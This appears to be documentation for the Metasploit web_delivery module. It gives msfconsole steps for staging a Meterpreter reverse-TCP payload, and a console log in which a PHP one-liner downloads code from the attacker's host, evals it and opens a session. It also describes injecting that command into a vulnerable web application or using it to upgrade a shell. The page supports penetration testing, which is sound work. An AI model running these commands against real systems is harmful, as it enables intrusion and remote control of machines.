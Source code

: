 As a web server, web_delivery provides a great way to deliver a payload during post exploitation,
with the intention to stay stealthy because the payload does not touch the disk.

Currently, web_delivery supports three different languages for delivery: Python, PHP, and
Powershell. You should be able to tell which one you can use based on the target environment
you are in.

For example: if you have gained access through a PHP application, then it's safe to assume you can
use PHP. If you're in a Windows server (such as Windows Server 2008), then it's probably safe to
say the target supports Powershell.

## Verification Steps

To be able to use web_delivery, you must gain access to the target machine first, with the ability
to execute either the Python, or PHP, or Powershell interpreter.

At that point, you would use web_delivery similar to the following example:

1. Start msfconsole
2. Do: ```use exploit/multi/script/web_delivery```
3. Do: ```set target 1``` (1 is PHP. You can use ```show targets``` to see other options)
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp``` (You can do ```show payloads``` to see what options are suitable for the target)
5. Do: ```set LHOST IP``` (The IP the payload should connect back to)
6. Do: ```run```
7. At this point, a handler is up for that payload. And the module should instruct you to execute
   a command.
8. Copy the command. Depending on your pentesting scenario, typically you can either inject the
   command and get code execution, or run it from the target's shell, and get a session:

```
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.23.1:4444 
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/z5inGkwCCQiz9
[*] Local IP: http://10.6.0.86:8080/z5inGkwCCQiz9
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.23.1:8080/z5inGkwCCQiz9'));"
[*] Delivering Payload
[*] Sending stage (33684 bytes) to 172.16.23.134
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.134:41684) at 2016-03-02 11:41:34 -0600
```

## Targets

**Python**

Python is a fairly popular language, especially on unix-based systems. For example, it comes with
Ubuntu Linux by default since 8.04. As well as Debian, and Mac OS X since 10.3.

**PHP**

PHP is a fairly popular language for web servers, especially Apache.

**Powershell/win**

Powershell is a popular language for newer Windows systems. Windows 7 and Windows Server 2008 R2
are the first Windows versions to come with Powershell by default. Older Windows systems such as XP
don't come with it by default, but it is still possible to see it installed on a corporate network.

## Scenarios

**Against a compromised web application**

web_delivery would work nicely for a web application with a command execution vulnerability.

One way to approach this would be:

1. Start exploit/multi/script/web_delivery
2. Use [Burp Suite](https://portswigger.net/burp/) to intercept the HTTP/HTTPS request, place the command in the parameter that
   results in arbitrary code execution.
3. Hopefully the modified HTTP/HTTPS request is successful, and you should get a session.

**Shell upgrade**

web_delivery is also useful to upgrade a shell type payload to a meterpreter one.

Here's how that can be done:

1. Start exploit/multi/script/web_delivery that generates/
2. On msfconsole, interact with the shell, and copy/pate the command.
3. You should get a meterpreter session.
